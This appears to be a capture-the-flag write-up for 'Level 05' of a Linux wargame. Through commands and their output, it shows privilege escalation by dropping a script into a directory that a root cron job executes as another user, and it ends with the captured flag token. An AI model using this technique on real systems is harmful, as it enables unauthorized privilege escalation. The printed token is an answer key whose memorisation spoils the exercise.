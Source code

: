 # Level 05

## step 1 : try things
```
$ ls -la /*/* level05 | grep level05 2> /dev/null
-rw-r--r--+ 1 root mail  58 Apr 28 12:15 level05
```

## step 2 : read mail
```
$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
cron syntax : launch "sh /usr/sbin/openarenaserver" every 2 minutes

## step 3 : analyze /usr/sbin/openarenaserver
```
$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

## step 4 : run getflag with /usr/sbin/openarenaserver
 - Put a script to get the output of getflag in the folder /opt/openarenaserver/
```
$ echo 'getflag > /tmp/flag.out' > /opt/openarenaserver/test.sh
```

- wait max 2 minutes for cron to run the script

- read the output
```
$ cat /tmp/flag.out
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
